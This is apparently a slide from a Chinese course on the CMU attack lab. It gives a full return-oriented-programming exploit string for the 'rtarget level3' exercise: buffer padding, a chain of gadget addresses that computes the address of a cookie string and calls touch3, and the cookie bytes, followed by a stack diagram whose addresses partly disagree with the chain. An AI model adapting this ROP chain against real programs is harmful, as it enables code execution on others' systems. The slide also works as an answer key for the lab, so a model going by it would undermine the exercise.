

# 任务4： rtarget level3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
4d 20 40 00 00 00 00 00    * Pop to rax */
20 00 00 00 00 00 00 00    * Stack data = 0x20 */
0b 21 40 00 00 00 00 00      /* Move from eax to edx */
4a 21 40 00 00 00 00 00        /* Move from edx to ecx */
 e0 20 40 00 00 00 00 00    /* Move from ecx to esi */
ab 20 40 00 00 00 00 00      /* Move rsp to rax */
42 20 40 00 00 00 00 00      /* Move from rax to rdi */
/* Add rsi+rdi to get address for string in rax */
 5f 20 40 00 00 00 00 00
42 20 40 00 00 00 00 00   /* Move address from rax to rdi */
4c 1f 40 00 00 00 00 00    /* Call target function */
/* String representation of cookie */
 35 39 62 39 39 37 66 61 00

cookieASCII码
rSP+0x20
Touch3地址
41205f
412042
rSP
4120ab

rSP
40204d
…
buf[39-32]
buf[31-24]
…

4120e0
41214a
41210b
0x20
 -15-
 -15-
buf[7-0]